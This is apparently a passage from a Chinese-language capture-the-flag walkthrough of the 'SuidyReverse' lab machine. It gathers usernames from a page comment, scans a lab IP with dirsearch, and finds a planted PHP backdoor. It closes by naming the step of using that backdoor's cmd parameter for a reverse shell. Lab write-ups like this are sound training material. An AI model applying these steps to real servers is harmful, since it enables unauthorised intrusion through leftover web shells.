 ![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.001.png)

```Bash
Im proud to announce that "theuser" is not anymore in our servers. Our admin "mudra" is the best admin of the world. -suidy  <!--  "mudra" is not the best admin, IM IN!!!! He only changed my password to a different but I had time to put 2 backdoors (.php) from my KALI into /supersecure to keep the access!  -theuser  --> 
```


```Bash
我很自豪地宣布，“theuser”不再在我们的服务器上了。我们的管理员“mudra”是世界上最棒的管理员。 -suidy
<!--  “mudra”并不是最棒的管理员，是我在！他只是把我的密码改了，但我有时间把两个后门（.php文件）从我的KALI放到/supersecure目录里，以保持访问！  -theuser  -->
```
获取到几个用户名

```Bash
theuser
suidy
mudra
```
一个路径

```Bash
/supersecure
```
对路径进行扫描

```Bash
dirsearch -u http://192.168.56.9/supersecure
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg\_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg\_resources.html
  from pkg\_resources import DistributionNotFound, VersionConflict

  \_|. \_ \_  \_  \_  \_ \_|\_    v0.4.3
 (\_||| \_) (/\_(\_|| (\_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/hmv/suidyreverse/reports/http\_192.168.56.9/\_supersecure\_24-11-17\_20-01-43.txt

Target: http://192.168.56.9/

[20:01:43] Starting: supersecure/
[20:02:02] 200 -   28B  - /supersecure/simple-backdoor.php

Task Completed
```
访问网站后门

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/17.SuidyReverse.002.png)

利用cmd参数反弹shell
